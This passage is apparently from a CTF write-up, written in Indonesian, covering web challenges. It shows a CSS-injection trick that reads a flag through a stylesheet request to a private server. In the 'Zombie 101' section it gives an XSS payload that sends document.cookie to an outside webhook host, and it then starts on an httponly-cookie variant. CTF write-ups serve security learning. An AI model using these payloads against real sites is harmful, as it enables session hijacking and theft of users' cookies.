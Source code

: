 ```html 
</html>
```

Disini kita membuat seperti ini `    <link rel="stylesheet" href="http://0:1337/css?prefix=.foo{ content: '">` untuk melakukan request ke server private an tidak lupa kita juga menambahkan prefix `.foo{content:'` agar flag kita di baca sebagai valid css.

![](https://i.imgur.com/xSH9VL5.png)

## Zombie 101
### Description
Can you survive the Zombie gauntlet!?

First in a sequence of four related challenges. Solving one will unlock the next one in the sequence.

They all use the same source code but each one has a different configuration file.

This first one is a garden variety "steal the admin's cookie".

Good luck!

Please don't use any automated tools like dirbuster/sqlmap/etc.. on ANY challenges. They won't help anyway.

### Exploit
Untuk challenge ini kita hanya perlu mengambil admin cookie dengan memaanfaatkan XSS yang terdapat di endpoint `/zombie`

```html
<script>fetch("https://webhook?"+document.cookie)</script>
```

![](https://i.imgur.com/mwMvpIE.png)

![](https://i.imgur.com/Ol7AmaY.png)

Kemudian masukkan url dari page diatas di bagian berikut, maka nanti kita akan mendapatkan flagnya di webhook server.

![](https://i.imgur.com/DhzEndM.png)

## Zombie 201
### Description
Congratulations, you got the admin's cookie!

Can you do it again? It might be a little harder this time.

You are well on your way through the gauntlet. You can't stop now.

### Exploit
Berbeda dengan challenge yang pertama disini kita tidak bisa `document.cookie` untuk mengambil flagnya dikarenakan cookie dari flag yang di set httponly sehingga tidak bisa diakses dari javascript.
